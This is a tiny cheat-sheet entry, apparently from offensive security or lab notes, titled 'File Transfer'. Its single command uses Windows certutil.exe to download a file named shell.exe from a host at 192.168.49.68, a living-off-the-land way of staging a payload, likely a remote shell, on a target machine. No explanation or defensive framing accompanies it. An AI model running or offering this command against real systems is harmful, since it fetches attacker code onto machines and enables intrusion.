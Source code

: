 # File Transfer

```
certutil.exe -urlcache -split -f "http://192.168.49.68/shell.exe" shell.exe
```

